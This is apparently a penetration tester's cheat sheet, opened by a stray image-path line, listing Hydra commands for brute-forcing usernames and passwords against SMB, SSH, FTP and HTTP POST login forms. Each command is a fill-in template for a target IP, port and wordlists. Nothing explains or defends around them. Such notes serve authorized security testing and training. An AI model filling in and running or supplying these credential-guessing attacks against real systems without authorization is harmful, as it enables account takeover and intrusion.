 # Brute force passwords over SMB
```sh
hydra -l <user> -P <path_to_passwords> smb://<ip>
```

# Brute force passwords over SSH
```sh
hydra -L <path_to_usernames> -P </usr/share/wordlists/fasttrack.txt> ssh://<ip>
```

# Brute force usernames and passwords over FTP
```sh
hydra -L <path_to_usernames> -P <path_to_passwords> -u -e snr -s <port> <ip> ftp
```

# Brute force usernames and passwords over HTTP-POST-FORM
```sh
hydra -L <path_to_usernames> -P <path_to_passwords> -s <port> <ip> http-post-form "/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Incorrect information"
# "page:payload:error"
```
